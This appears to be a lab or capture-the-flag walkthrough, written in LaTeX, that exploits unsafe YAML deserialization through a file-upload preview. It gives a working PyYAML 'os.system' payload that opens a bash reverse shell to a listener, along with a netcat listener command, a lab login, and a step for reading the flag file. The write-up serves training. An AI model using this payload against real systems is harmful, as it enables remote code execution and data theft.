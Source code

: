 \subsubsection{Step 1 --- Start listener on Parrot}

\begin{lstlisting}
nc -lvnp 4444
\end{lstlisting}

\subsubsection{Step 2 --- Create malicious YAML payload}

\begin{lstlisting}
echo '!!python/object/apply:os.system ["bash -c '"'"'bash -i >& /dev/tcp/10.0.40.x/4444 0>&1'"'"'"]' > exploit.yml
\end{lstlisting}

Or manually create \texttt{exploit.yml}:

\begin{lstlisting}
!!python/object/apply:os.system
- "bash -c 'bash -i >& /dev/tcp/10.0.40.x/4444 0>&1'"
\end{lstlisting}

\subsubsection{Step 3 --- Upload and trigger}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Browse to  --- login as \texttt{operator\ /\ D4t4V4ult\#2024}
\item
  Upload \texttt{exploit.yml} via the upload form
\item
  Click \textbf{Preview} on \texttt{exploit.yml}
\item
  Reverse shell arrives on the \texttt{nc} listener
\end{enumerate}

\subsubsection{Step 4 --- Exfiltrate the flag}

\begin{lstlisting}
# In the reverse shell:
cat /app/data/finalData.txt
\end{lstlisting}


